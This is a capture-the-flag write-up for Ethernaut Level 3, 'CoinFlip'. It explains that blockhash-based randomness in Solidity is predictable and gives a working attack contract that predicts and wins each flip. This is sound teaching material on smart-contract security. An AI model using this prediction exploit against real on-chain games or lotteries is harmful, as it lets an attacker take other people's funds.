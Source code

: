 <div align="center">

<img src="../assets/levels/3-coinflip.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>

## Objectif

<img src="../assets/requirements/3-coinflip-requirements.webp" width="800px"/>

## The hack

Everything in the EVM is deterministic. This means that entropy doesn't exist natively on-chain (you can use third-party solutions like [Chainlink VRF](https://docs.chain.link/vrf/)).
The logic used in the `CoinFlip` contract is only pseudo-random. So we can predict the next flip by using the same logic as the one in the contract.
Once done, we can call the `flip` function with the predicted value and repeat this 10 times to win the level.

## Solution

We can craft a smart contract that reproduces the same logic as the `CoinFlip` contract to predict the next flip and call the `flip` function with the predicted value.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ICoinFlip {
    function flip(bool) external returns (bool);
}

contract Unflip {
    address immutable coinflip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinflip) {
        coinflip = _coinflip;
    }

    function playToWin() private view returns (bool) {
        uint256 pastBlockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlipResult = pastBlockValue / FACTOR;
        return coinFlipResult == 1 ? true : false;
    }

    function attack() public {
        ICoinFlip(coinflip).flip(playToWin());
    }
}
```

## Takeaway

- Entropy doesn't exist on-chain
- Pseudo-randomness can help for development but not for production
- To read: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
